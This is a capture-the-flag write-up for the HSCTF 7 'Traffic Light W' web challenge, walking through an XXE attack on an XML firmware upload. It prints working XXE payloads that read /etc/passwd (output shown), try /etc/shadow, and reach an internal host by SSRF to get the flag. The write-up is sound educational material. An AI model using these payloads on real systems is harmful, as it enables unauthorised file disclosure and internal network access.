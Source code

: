 ```yaml
---
title: Traffic Light W
date: 2020-06-07
tags: web, lfi, xxe
ctf: HSCTF 7
---
```


## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:

![Image showing the status of the five traffic lights](./files/traffic-status.png)

We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:

![Image showing the interface to upload XML firmware](./files/upload-firmware.png)

There is a provided example, with the following script:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```
